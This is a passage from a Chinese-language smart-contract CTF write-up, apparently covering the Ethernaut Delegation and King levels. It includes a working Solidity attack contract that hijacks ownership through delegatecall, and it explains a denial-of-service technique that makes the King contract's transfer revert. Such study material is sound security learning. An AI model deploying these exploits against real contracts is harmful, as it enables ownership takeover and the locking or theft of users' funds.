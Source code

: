    分析：使用delegatecall，将会在**调用者**环境下执行，delegatecal即可修改合约中的owner

   对其进行攻击：

   ```solidity
   contract attack{
       address target =0xd2a5bC10698FD955D1Fe6cb468a17809A08fd005;
       bytes4 public result;
       function trandform()public{
       result=bytes4(keccak256("pwn()"));
   }
       function pwn() public payable{
       target.call(abi.encodePacked(result,""));
   }
   }
   ```

   #### 	transfer转账漏洞——拒绝服务

   举个例子：

   ```solidity
   pragma solidity ^0.6.0;
   
   contract King {
   
     address payable king;
     uint public prize;
     address payable public owner;
   
     constructor() public payable {
       owner = msg.sender;  
       king = msg.sender;
       prize = msg.value;
     }
   
     receive() external payable {
       require(msg.value >= prize || msg.sender == owner);
       king.transfer(msg.value);
       king = msg.sender;
       prize = msg.value;
     }
   
     function _king() public view returns (address payable) {
       return king;
     }
   }
   ```

   原理：transfer函数如果异常会转账失败，抛出异常。并且有gas限制，最大2300，避免了重入漏洞。

   漏洞分析：题目就是要求成为king，但是题目会进行king的重申，而transfer函数不同于call和send，call和send函数执行后会返回true或者false，transfer函数执行失败后会进行回滚(revert)所以我们将king变成自己后提交实例时要阻止关卡对于king的重申，简单来说就是让关卡触发receive函数时失败。直接使用revert让关卡在想攻击合约转账时失败以上两种方法可以使漏洞合约中的transfer函数执行失败从而进行回滚导致king的重申失败。
